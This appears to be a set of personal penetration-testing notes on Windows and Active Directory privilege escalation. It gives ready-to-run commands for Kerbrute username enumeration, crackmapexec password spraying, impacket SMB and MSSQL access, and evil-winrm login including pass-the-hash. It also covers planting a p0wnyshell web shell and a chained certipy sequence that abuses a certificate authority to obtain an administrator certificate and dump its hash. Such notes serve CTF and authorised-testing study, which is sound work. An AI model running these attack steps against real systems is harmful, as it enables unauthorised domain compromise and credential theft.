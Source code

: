 # Windows Privilege Escalation

Windows:

- when in a Windows box check rpcclient with command

```jsx
rpcclient -U "user" domain
```

- If we can see Admin info is being shared with the guest account we can attempt to go to
    - c:\xampp\htdocs
        - this directory is where html files can be placed and accessed via http or https
        - example: https//website/p0wnyshell.php
- If smb port is open, 445, we can try first to login anonymously to SMB to gain access. If this is unsuccessful we can use a tool called Kerbrute to try and find a user for us to get ahold of
- Kerbrute:
    
    ```jsx
    ./kerbrute_linux_amd64 userenum -d 'domain' /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt --dc 'domain controller name'
    ```
    
    - Kerbrute uses the wordlist provided to attempt to find common usernames that would be used in an everyday environment
- We can run a tool called crackmapexec against the protocol smb to attempt to use a username txt file to find if any user is using their password the same thing as their username.
    
    ```jsx
    crackmapexec smb ip -u users.txt -p users.txt --no-brute --continue-on-success
    ```
    
- We can use a tool called impacket-smbclient to attempt to connect to a server via smb, we must have a known username and password
    
    ```jsx
    impacket-smbclient domain/usernam:password@ipaddress -target-ip ipaddress
    ```
    
    - once connected run ‘ls’ to see what shares you can see
- If we have known good credentials on a windows machine AND we see the port open for mssql we can attempt to access that port using impacket-mssqlclient
    
    ```jsx
    impacket-mssqlclient -port PORT domain/username:password@ipaddress -window
    ```
    
    - A trick once in with mssql is to use the below command to see all available files on the server
    
    ```jsx
    EXEC xp_dirtree 'c:\inetpub\wwwroot', 1, 1;
    ```
    
- If we are to find a users username and password we can use the tool evil-winrm to login to the device

```jsx
evil-winrm -i IPADDRESS -u USERNAME
```

- A tool we can use to find vulnerable CA’s or what CA they are using is certify.exe
    - upload the certify.exe to the victim device
    
    ```jsx
    ./Certify.exe find /vulnerable
    ```
    
- If we can get ahold of an account that can manage CA we can use that account to actually issue a new cert to for instance the Administrator account
    - This is done with the certipy tool
- Certipy

```jsx
certipy ca -ca 'Enterprise CA Name' -add-officer USERNAME -username USERNAME@domain -password '<password>' && certipy ca -ca 'Enterprise CA Name' -enable-template SubCA -username USERNAME@domain -password '<password>' && certipy req -username USERNAME@domain -password '<password>' -ca 'Enterprise CA Name' -target domain -template SubCA -upn administrator@domain && certipy ca -ca "Enterprise CA Name" -issue-request <private_key_id> -username 'USERNAME@domain' -password '<password>' && certipy req -username 'USERNMAE@domain' -password '<password>' -ca "Enterprise CA Name" -target domain -retrieve <private_key_id>
```

- The command ABOVE does a lot of different things but it basically assigns the SubCA as the compromised regular user account and assigns a new private key file to administrator@domain with a new private ID.
    - During the execution of the command it will prompt if you want to down the private key file, press Y
- Once Certipy has been run and you find success you can now use the command below to dump the hash to yourself using the new private key file made available to you

```jsx
certipy auth -pfx filename.pfx -dc-ip ipaddress
```

- You can also use evil-winrm using a hash

```jsx
evil-winrm -i ipaddress -u USERNAME -H HASH
```